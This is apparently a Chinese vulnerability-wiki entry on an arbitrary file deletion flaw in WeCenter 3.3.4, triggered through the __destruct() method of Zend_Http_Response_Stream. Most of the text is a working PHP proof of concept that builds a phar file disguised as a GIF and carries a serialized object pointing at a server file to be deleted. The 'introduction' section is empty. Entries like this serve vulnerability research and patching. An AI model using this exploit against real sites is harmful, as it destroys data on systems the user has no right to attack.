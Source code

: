 WeCenter 3.3.4 任意文件删除
===========================

一、漏洞简介
------------

二、漏洞影响
------------

WeCenter 3.3.4

三、复现过程
------------

### 任意文件删除

**system/Zend/Http/Response/Stream.php:\_\_destruct()**
方法中存在任意文件删除。

![](/Users/aresx/Documents/VulWiki/.resource/WeCenter3.3.4任意文件删除/media/rId25.png)

### poc

    <?php
    class Zend_Http_Response_Stream
    {
        protected $_cleanup;
        protected $stream_name;

        public function __construct($stream_name)
        {
            $this->_cleanup = true;
            $this->stream_name = $stream_name;
        }
    }

    $stream_name = '/var/www/html/wecenter334/shell.php';
    $evilobj = new Zend_Http_Response_Stream($stream_name);
    // phar.readonly无法通过该语句进行设置: init_set("phar.readonly",0);
    $filename = 'poc.phar';// 后缀必须为phar，否则程序无法运行
    file_exists($filename) ? unlink($filename) : null;
    $phar=new Phar($filename);
    $phar->startBuffering();
    $phar->setStub("GIF89a<?php __HALT_COMPILER(); ?>");
    $phar->setMetadata($evilobj);
    $phar->addFromString("foo.txt","bar");
    $phar->stopBuffering();

    ?>
